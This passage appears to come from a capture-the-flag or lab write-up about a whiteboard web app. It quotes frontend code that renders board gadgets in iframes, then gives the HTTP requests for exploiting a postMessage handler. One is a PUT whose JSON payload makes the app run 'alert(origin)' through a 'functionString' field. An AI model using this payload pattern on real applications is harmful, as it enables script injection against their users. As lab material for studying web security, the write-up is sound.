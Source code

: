 `frontend/app/classes/Gadgets.ts`:

```javascript
export class BoardGadget extends Gadget {
  public boardId!: string;

  constructor(data: any) {
    super();
    Object.assign(this, data);
  }
}
```

In `frontend/app/whiteboard/components/Draggable.tsx`, this `BoardGadget` will then get rendered in an `<iframe>`:

```javascript
export default function Draggable({
  [...]
}: {
  [...]
}) {
  const iframeRef = useRef<HTMLIFrameElement>(null);
  [...]
  return (
    [...]
      {gadget instanceof BoardGadget && (
        <iframe
          ref={iframeRef}
          src={new URL(gadget.boardId, import.meta.env.VITE_ROOT_URL).href}
          width={500}
          height={500}
        />
      )}
    [...]
  );
}
```

Therefore, to exploit this `postMessage`, we need to:
- Create board 1: Execute function `sendToParent` and send message to the `message` event handler

```http
POST /board HTTP/1.1
Host: localhost:25054


```

Board 1 ID: `dce78f03-820c-418f-891f-a49da7e3efe6`.

```http
PUT /board/dce78f03-820c-418f-891f-a49da7e3efe6 HTTP/1.1
Host: localhost:25054
Content-Type: application/json
Content-Length: 131

{"content":{"anything":{"type":"functions.sendToParent","executeFunction":true,"functionString":"alert(origin)","arguments":[""]}}}
```
